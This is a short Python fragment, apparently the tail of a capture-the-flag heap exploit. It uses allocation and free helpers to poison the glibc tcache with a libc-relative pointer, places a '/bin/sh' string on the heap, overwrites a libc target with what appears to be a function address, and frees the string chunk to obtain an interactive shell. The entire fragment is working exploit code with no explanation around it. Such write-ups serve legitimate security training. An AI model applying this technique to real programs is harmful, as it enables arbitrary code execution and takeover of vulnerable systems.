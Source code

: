 ```python
    

add(9,0x70,b"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+b"\n")
delete(1) #tcache[0x10]=1->15

delete(9) #tcache[0x70] = 9 


add(10,0x70,b"a"*0x40+p32(0)+p32(0x11)+p32(libc+0x1479cc)+b"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x03a028)+b"\n")
delete(11)

p.interactive()
```